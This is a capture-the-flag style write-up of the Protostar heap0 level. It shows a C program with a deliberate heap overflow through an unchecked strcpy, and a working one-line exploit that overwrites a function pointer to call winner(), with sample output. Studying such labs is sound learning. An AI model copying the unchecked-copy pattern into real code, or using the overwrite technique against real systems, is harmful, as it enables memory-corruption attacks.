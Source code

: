 Source:
```c
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <stdio.h>
#include <sys/types.h>

struct data {
  char name[64];
};

struct fp {
  int (*fp)();
};

void winner()
{
  printf("level passed\n");
}

void nowinner()
{
  printf("level has not been passed\n");
}

int main(int argc, char **argv)
{
  struct data *d;
  struct fp *f;

  d = malloc(sizeof(struct data));
  f = malloc(sizeof(struct fp));
  f->fp = nowinner;

  printf("data is at %p, fp is at %p\n", d, f);

  strcpy(d->name, argv[1]);
  
  f->fp();

}
```

Upon running the code with random argument, we see that `d` (hence `d->name`) is at `0x804a008` and `fp` is at `0x804a050`.

From GDB, I knew that `winner` is at `0x8048464`.

Type the following: `python -c "print 'a'*72+'\x64\x84\x04\x08'" | xargs ./heap0`.

Sample output:
```bash
user@protostar:/opt/protostar/bin$ python -c "print 'a'*72+'\x64\x84\x04\x08'" | xargs ./heap0
data is at 0x804a008, fp is at 0x804a050
level passed
```
